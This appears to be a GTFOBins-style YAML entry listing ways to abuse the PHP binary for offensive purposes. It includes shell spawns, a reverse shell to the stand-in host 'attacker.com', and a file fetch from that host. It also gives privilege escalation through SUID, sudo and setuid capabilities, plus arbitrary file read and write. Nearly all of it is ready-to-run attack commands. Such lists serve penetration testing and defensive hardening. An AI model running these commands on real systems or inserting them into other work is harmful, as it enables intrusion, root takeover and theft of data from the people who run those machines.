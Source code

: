 functions:
  shell:
    - code: |
        export CMD="/bin/sh"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="/bin/sh"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
    - code: |
        export CMD="/bin/sh"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  command:
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
  file-upload:
    - description: Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  suid:
    - code: |
        CMD="/bin/sh"
        ./php -r "pcntl_exec('/bin/sh', ['-p']);"
  sudo:
    - code: |
        CMD="/bin/sh"
        sudo php -r "system('$CMD');"
  capabilities:
    - code: |
        CMD="/bin/sh"
        ./php -r "posix_setuid(0); system('$CMD');"
  file-read:
    - code: |
        export LFILE=file_to_read
        php -r 'readfile(getenv("LFILE"));'
  file-write:
    - description: write data to a file, filename should be absolute.
      code: |
        export LFILE=file_to_write
        php -r 'file_put_contents(getenv("LFILE"), "DATA");'
---
